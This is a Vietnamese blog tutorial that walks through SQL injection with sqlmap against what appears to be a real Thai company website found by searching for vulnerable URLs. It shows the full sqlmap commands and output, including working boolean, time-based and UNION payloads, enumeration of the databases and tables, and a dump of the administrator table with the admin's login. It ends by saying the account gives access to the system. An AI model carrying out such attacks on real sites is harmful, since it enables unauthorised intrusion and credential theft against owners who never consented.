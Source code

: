```yaml
---
title: Khai Thác Lỗi SQl Injection (sqlmap)
date: 4/6/2021
layout: single

--- 
```

---
# Ngôn Ngữ
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org/)

# Mô Tả 
### SQLMap là gì

SQLMAP là công cụ khai thác những lổ hỏng của cơ sở dữ liệu SQL. Công cụ này được xem là công cụ khai thác SQL tốt nhất hiện nay. Được giới bảo mật và giới hacker sử dụng thường xuyên. Với người dùng Kali hoặc Back Track 5 thì SQLMAP đã được tích hợp sẵn vào hệ điều hành. Riêng Windows thì chúng ta phải cài đặt thêm python và SQLMAP để sử dụng

Đây là công cụ mã nguồn mở, tự động hóa quá trình phát hiện và khai thác lỗ hổng SQL. Nó đi kèm với một công cụ phát hiện mạnh mẽ, nhiều tính năng thích hợp cho trình kiểm tra thâm nhập cuối cùng

Tải sqlmap tại [https://sqlmap.org/](https://sqlmap.org/) 

--- 

## Khai Thác 
Đầu tiên tôi tìm các liên kết về inurl php id= .co.th
Tôi thử với trang [http://www.megaplanet.co.th/project-details.php?id=26](http://www.megaplanet.co.th/project-details.php?id=26) 


---
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 --dbs

Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=26 AND 1040=1040

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=26 AND (SELECT 3942 FROM (SELECT(SLEEP(5)))QFnO)

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: id=26 UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x71766a7871,0x4c6f7467466a4c417963637a566c444b534a596b57574859674653504e4379586256644d66517745,0x7178627171),NULL,NULL,NULL,NULL-- -
---
[21:55:40] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[21:55:40] [INFO] fetching database names
[21:55:40] [WARNING] reflective value(s) found and filtering out
[21:55:40] [INFO] resumed: 'information_schema'
[21:55:40] [INFO] resumed: 'megaplanet_db'
available databases [2]:
[*] information_schema
[*] megaplanet_db

[21:55:40] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\www.megaplanet.co.th'

```
Sau khi xác định được tên cơ sở dữ liệu, tôi lại tìm tiếp tên các bảng có trong cơ sở dữ liệu 
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db --tables
[22:09:57] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:09:57] [INFO] fetching tables for database: 'megaplanet_db'
[22:09:57] [WARNING] reflective value(s) found and filtering out
[22:09:57] [INFO] resumed: 'tb_pic'
[22:09:57] [INFO] resumed: 'tb_project'
[22:09:57] [INFO] resumed: 'config'
[22:09:57] [INFO] resumed: 'project_ref'
[22:09:57] [INFO] resumed: 'tb_sort'
[22:09:57] [INFO] resumed: 'tb_cateproduct'
[22:09:57] [INFO] resumed: 'tb_detailhome'
[22:09:57] [INFO] resumed: 'administrator'
[22:09:57] [INFO] resumed: 'tb_banner'
[22:09:57] [INFO] resumed: 'tb_title'
[22:09:57] [INFO] resumed: 'tb_admin'
[22:09:57] [INFO] resumed: 'news'
[22:09:57] [INFO] resumed: 'tb_seo'
[22:09:57] [INFO] resumed: 'tb_news'
[22:09:57] [INFO] resumed: 'products'
[22:09:57] [INFO] resumed: 'tb_config'
[22:09:57] [INFO] resumed: 'tb_product'
[22:09:57] [INFO] resumed: 'tb_slide'
[22:09:57] [INFO] resumed: 'catpro'
[22:09:57] [INFO] resumed: 'subcatpro'
Database: megaplanet_db
[20 tables]
+----------------+
| administrator  |
| catpro         |
| config         |
| news           |
| products       |
| project_ref    |
| subcatpro      |
| tb_admin       |
| tb_banner      |
| tb_cateproduct |
| tb_config      |
| tb_detailhome  |
| tb_news        |
| tb_pic         |
| tb_product     |
| tb_project     |
| tb_seo         |
| tb_slide       |
| tb_sort        |
| tb_title       |
+----------------+

```
Xác định tên các cột trong bảng
Ta thấy administrator có thể chứa thông tin đăng nhập, nên ta sử dụng lệnh sau để xác định trong bảng administrator
```shell
python sqlmap.py -u http://www.megaplanet.co.th/project-details.php?id=26 -D megaplanet_db -T administrator --dump
[22:14:20] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[22:14:20] [INFO] fetching columns for table 'administrator' in database 'megaplanet_db'
[22:14:20] [WARNING] reflective value(s) found and filtering out
[22:14:20] [INFO] resumed: 'ID','int(11)'
[22:14:20] [INFO] resumed: 'admin','varchar(50)'
[22:14:20] [INFO] resumed: 'password','varchar(50)'
[22:14:20] [INFO] resumed: 'active','int(11)'
[22:14:20] [INFO] fetching entries for table 'administrator' in database 'megaplanet_db'
Database: megaplanet_db
Table: administrator
[1 entry]
+----+-------+--------+----------+
| ID | admin | active | password |
+----+-------+--------+----------+
| 1  | admin | 1      | adminxxx |
+----+-------+--------+----------+

```
Bảng administrator có 1 bản ghi chứa thông tin của username và password là "admin", "adminxxx" Sử dụng tài khoản này, ta sẽ đăng nhập vào được hệ thống

---

## Chúc May Mắn :D
